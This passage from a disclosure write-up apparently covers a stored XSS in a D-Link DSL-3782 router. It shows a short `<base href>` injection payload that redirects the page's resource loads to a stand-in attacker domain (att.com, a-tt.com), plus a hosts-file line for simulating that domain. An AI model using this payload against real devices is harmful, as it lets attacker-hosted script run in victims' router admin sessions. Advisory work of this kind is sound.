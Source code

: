 ![acl.sh3](/images/2019-01-24-D-Link-DIR-3782-SecAdvisory:-OS-Command-Injection-and-Stored-XSS/new_xss3.png)



### Exploitation
It's time to escalate this bug from an HTML to a JavaScript injection but, as aforementioned in the OS command injection, it is not possible to use a normal payload such as `<script>alert(1)</script>` because the application cuts our input. 

We definitely have to find a really short xss payload but, thanks to [@brutelogic][brute] who wrote a great blog post titled [The shortest xss payload][xss], I've find out the `<base href=//att.com>` HTML tag that specifies the base URL/target for all relative URLs in a document. Basically, if an attacker managed to inject this tag inside a page, during the DOM construction all the external resources specified with a local path (such as `<img href="/image/cat.png">`) would be resolved with the new domain, so the browser instead of requesting a `current_domain/resource`, it will request a `new_base/resource`. Exploiting this behaviour the victim browser will automatically request some resources (the ones defined with a relative path) from the attacker's domain. 
If you want to explore in depth the functionality of the `base` tag, I've written a small demonstration page [here][base_example].

Let's start to make it works! The first step to exploit this vulnerability is to find a short domain that fits the payload characters limitations. In particular,
in order to exploit this vulnerability in the wild, an attacker has to register a public domain composed by two short words with a dash between them: `<short string>-<short string>.<short top-level domain>`.
As example, I used the domain `a-tt.com` as the attacker's domain and I managed to simulate its existence adding a line to my `hosts` configuration file. 
The command showed below will force your pc to resolve the attacker's domain `a-tt.com` with the 127.0.0.1 IP address. 

```
127.0.0.1	a-tt.com
```

The second step needed is to create an `asp` file called `header.asp` with the real exploit payload, this code will be executed by the victim's browser so you can add whatever you want. Reading the following steps the reason why the file needs to have this particular name and extension is clear. Since this is just a test, I created the following simple alert script that will prove the presence of the vulnerability by prompting a JavaScript popup.


[descDlink]:        https://eu.dlink.com/it/it/products/dsl-3782-wireless-ac1200-dual-band-vdsl-adsl-modem-router
[CVE-2018-8898]:    https://www.exploit-db.com/exploits/44657      
[github repo]:      https://github.com/c0mix/D-Link-DSL-3782-SecAdvisory
[xss]:              https://brutelogic.com.br/blog/shortest-reflected-xss-possible/
[base_example]:     https://www.w3schools.com/code/tryit.asp?filename=FZK6RNOO0OJX
[brute]:            https://twitter.com/brutelogic
[CVE-2018-17989]:   https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17989
[CVE-2018-17990]:   https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17990
[Pentesting iot]:	https://blog.mindedsecurity.com/2018/10/pentesting-iot-devices-part-2-dynamic.html
[Firmadyne Tool]:	https://github.com/firmadyne/firmadyne
[Giulio]:	https://www.linkedin.com/in/giuliocomi/